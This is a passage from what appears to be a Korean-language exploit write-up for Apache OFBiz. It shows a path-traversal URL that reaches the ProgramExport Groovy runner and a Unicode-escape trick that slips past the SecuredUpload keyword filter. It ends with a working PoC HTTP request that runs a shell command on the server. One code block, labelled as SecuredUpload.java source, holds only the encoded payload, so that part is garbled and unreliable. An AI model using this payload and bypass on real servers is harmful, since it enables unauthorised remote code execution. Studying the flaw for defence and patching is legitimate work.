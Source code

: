 로그를 통해서도 위 내용과 동일한 결과를 확인할 수 있습니다.

![image](./images/image-007.png)

이때, 로그 내용을 자세히 살펴보면 `execute` 문자열이 포함되었다는 이유로 익스플로잇이 불가능한 것을 알 수 있습니다. 또한, 로그 내용을 보면 `===== Not Executed for security reason ====` 문자열이 있는걸로 보아 `ProgramExport.groovy` 스크립트는 정상적으로 실행된 것을 확인할 수 있습니다.

🔍 /framework/webtools/groovyScripts/entity/ProgramExport.groovy 파일 내 일부

```groovy
// Check if a webshell is not uploaded but allow "import"
if (!SecuredUpload.isValidText(groovyProgram, ["import"])) {
    logError("================== Not executed for security reason ==================")
    request.setAttribute("_ERROR_MESSAGE_", "Not executed for security reason")
    return
}
```

이에 `SecuredUpload` 클래스의 `isValidText` 함수에 의해 탐지된 것을 확인할 수 있으며, 해당 함수를 살펴보면 단순히 `token.toLowerCase()`를 사용하여 단순 문자열 비교를 수행하는 것을 알 수 있습니다.

🔍 /framework/security/src/main/java/org/apache/ofbiz/security/SecuredUpload.java 파일 내 일부

```java
\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```

따라서, 유니코드로 인코딩된 문자열은 일반 문자열과 다르게 처리되므로 탐지를 우회할 수 있습니다.

# PoC

> `grovyProgram=throw new Exception('ls -al'.execute().text);` 요청
> 

```
POST /webtools/control/main/test/%2E%2E/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```
